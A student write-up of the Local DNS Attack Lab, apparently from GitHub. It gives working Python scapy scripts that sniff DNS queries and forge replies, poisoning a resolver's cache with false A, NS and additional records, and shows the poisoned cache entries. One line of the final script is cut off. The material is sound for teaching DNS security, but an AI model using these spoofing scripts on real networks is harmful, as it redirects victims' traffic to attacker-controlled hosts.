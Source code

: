 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1: Task 1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section is not needed
                # The Additional Section is not needed

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

With this code, we sniff for DNS requests containing ``` example.com ```, we spoof a reply by swapping target and source IP addresses and ports and creating a DNS answer section containing the 'bad' IP address we want the victim to use for the respective hostname.

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/393f7f25-df2c-4788-9a2b-f2476ae5434f)

The answer now contains the attacker machine's IP address (```10.9.0.1```) and not the real address like before.

---

## 3.2: Task 2: DNS Cache Poisoning Attack - Spoofing Answers

We now want to be the 'man in the middle' between the local DNS server and a remote authoritative DNS server. 

To do this, we only have to change the filter in our spoofing script to only sniff packets that are coming from our local DNS server and are going to port 53 (DNS requests).

```python
myFilter = "udp and dst port 53 and src host 10.9.0.53" 
```
The rest of the script of task 1 stays the same.

So now the dig request on the ```user``` machine gives 
```
;; ANSWER SECTION:
www.example.com.        259200  IN      A       10.9.0.1
```
as well.

But now the local DNS server cache is also poisoned and contains:

```
www.example.com.        863957  A       10.9.0.1
```

---

## 3.3: Task 3: Spoofing NS Records

Now we want to add an Authority Section to out spoofed DNS reply. This will lead to the local DNS server saving our malicious name server in its cache as the authority responsible for the entire ``` example.com ``` domain. Therefore, when a user makes a DNS request to the local DNS server about any subdomain like ``` mail.example.com ```, the request will be forwarded to the attacker nameserver.

To achieve this, we just create the section in our script with this line:

```python
NSsec1 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
```

To include it in our spoofed DNS packet, we have to modify the ```nscount``` and ```ns``` properties in the instantiation of our DNS object:

```python
dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, an=Anssec, ns=NSsec1)
```

The rest of the script remains as before.

So if we now execute ```dig mail.example.com``` on the ```user**``` machine, we see the wrong IP address provided by the malicious nameserver:

![image](https://github.com/user-attachments/assets/0b0e097d-f17f-4050-b4c0-895b67fe4eb4)

Further, the local DNS server cache now contains the entry:

```
example.com.            777584  NS      ns.attacker32.com.
```

This means every request made to the DNS server for this domain is forwarded to our attacker nameserver if there is no entry for the specific hostname already in the cache.

---

## 3.4: Task 4: Spoofing NS Records for Another Domain

Now we want our spoofed reply to also add a cache entry for the ```google.com``` domain. To do this, we just add another element to the authority section.

The creation of the additional element in the authority section works in the same way as before:

```python
 NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
```

Of course, we have to inlude this in the DNS object as well:

```python
dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=0, an=Anssec, ns=NSsec1/NSsec2)
```

However, when we now execute ```dig www.example.com``` and then check the local DNS server's cache we will again only find the entry for the ```example.com``` domain and not for ```google.com```. This is because (properly configured) DNS servers only accept Authority Records that match the domain that was originally requested. This was done to prevent exactly this type of attack, the so called 'Cross-Domain-Poisoning'.

---

## 3.5: Task 5: Spoofing Records in the Additional Section

The full script we used for this attack look like this:

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section
                NSsec1 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.attacker32.com')
                NSsec2 = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.example.com')

                #The Additional Section
                Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A', ttl=259200, rdata='1.2.3.4')
                Addsec2 = DNSRR(rrname='ns.example.net', type='A', ttl=259200, rdata='5.6.7.8')
                Addsec3 = DNSRR(rrname='www.facebook.com', type='A', ttl=259200, rdata='3.4.5.6')

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=3, a>
                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53 and src host 10.9.0.53"
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

- We still include the answer section
- The authority section contains two ```NS``` entries for the ```example.com``` domain.
- The additional section contains three entries: ```ns.attacker.com```, ```ns.example.net``` and ```www.facebook.com```.

After this attack, the local DNS server's cache contains

```
example.com.            777592  NS      ns.example.com.
                        777592  NS      ns.attacker32.com.
```

But none of the entries of the Additional Section are included. Apparently only the two entries of the Authority Section were cached by the local DNS server. We had expected that at least the entry for ```ns.attacker32.com``` would be cached, as there is an Authority Entry for it in the same packet. 

The other two entries were expected to be discarded, as the ```www.facebook.com``` domain is not included in the Authority Section at all and the ```ns.example.net``` is on a different top-level domain (```.net```) than the one in the Authority section.
